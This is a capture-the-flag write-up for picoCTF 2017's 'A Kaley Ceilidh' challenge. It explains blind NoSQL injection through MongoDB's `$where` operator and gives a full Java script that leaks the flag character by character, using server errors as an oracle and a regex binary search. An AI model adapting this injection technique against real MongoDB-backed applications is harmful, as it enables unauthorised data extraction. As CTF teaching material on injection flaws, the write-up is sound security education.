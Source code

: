 # A Kaley Ceilidh - 175 Points
Everyone loves Scottish food [citation needed], but do you ever wish there were more hipster-y options? Well look no further than a 
[Kaley Ceilidh](http://shell2017.picoctf.com:8080/).

## Write-Up
First we had to realize this Node server utilizes Mongodb (The hint says to think HuMONGOus). This meant that our SQL injection techniques will not work for this. For this we had to use a new type of injection called "no-sql" injection. The problem arises because the server will reject any nested object JSON queries that we make.

At first, it seems totally safe (most special quereies require a nested object construct), except for one. The `$where` directive allows you to execute arbitrary filtering code (javascript code). Most APIs are blocked in this javascript sandbox, so we couldn't edit the query and have it return our flag. 

However, we still had one bit of data that could give us the flag (indirectly). When the executed javascript runs into an error, the server actually returns `Error` instead of an empty query. This allows us to create a narrowline distinction between whether if the flag, say matches a particular pattern, and whether it doesn't. Our solution involves using a binary search using regex as our method of testing whether if the flag matches a pattern.

The Java code that executes this binary search is of below: 
```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.HttpURLConnection;
import java.net.URL;

public class Kaley
{
	public static URL web;
	public static boolean test(String flag) throws Exception
	{
		HttpURLConnection conn = (HttpURLConnection)web.openConnection();
		conn.setDoOutput(true);
		conn.setDoInput(true);
		conn.setUseCaches(false);
		conn.setRequestMethod("POST");
		conn.setRequestProperty("Content-Type", "application/json");
		conn.connect();
		
		OutputStream os = conn.getOutputStream();
		OutputStreamWriter osw = new OutputStreamWriter(os, "UTF-8");
		osw.write("{\"$where\": \"if (this.flag && /^flag{" + flag + "[A-Za-z0-9_]*}$/.test(this.flag)) throw 3\"}");
		osw.flush();
		osw.close();
		
		StringBuilder sb = new StringBuilder();
		BufferedReader br = new BufferedReader(new InputStreamReader( conn.getInputStream(),"utf-8"));
		String line = null;
		while ((line = br.readLine()) != null) {
		    sb.append(line + "\n");
		}
		br.close();
		return (sb.toString().equals("Error\n"));
	}
	
	public static char binarySearch(String before, char from, char to) throws Exception
	{
		while (from < to)
		{
			char mid = (char)((from + to) / 2);
			if (test(before + "[" + from + "-" + mid + "]"))
				to = mid;
			else
				from = (char)(mid + 1);
		}
		return to;
	}
	
	public static void main(String[] args) throws Exception
	{
		web = new URL("http://shell2017.picoctf.com:8080/search");
		
		String flag = "";
		for (int i = 0; i < 25; i++)
		{
			char res;
			if (test(flag + "[A-Z]"))
				res = binarySearch(flag, 'A', 'Z');
			else if (test(flag + "[0-9]"))
				res = binarySearch(flag, '0', '9');
			else if (test(flag + "[a-z]"))
				res = binarySearch(flag, 'a', 'z');
			else 
				res = '_';
			flag += res;
			System.out.print(res);
		}
		System.out.println();
		System.out.println("flag{" + flag + "}");
	}

}
```

## Helpful Resources
[https://www.owasp.org/index.php/Testing_for_NoSQL_injection](https://www.owasp.org/index.php/Testing_for_NoSQL_injection)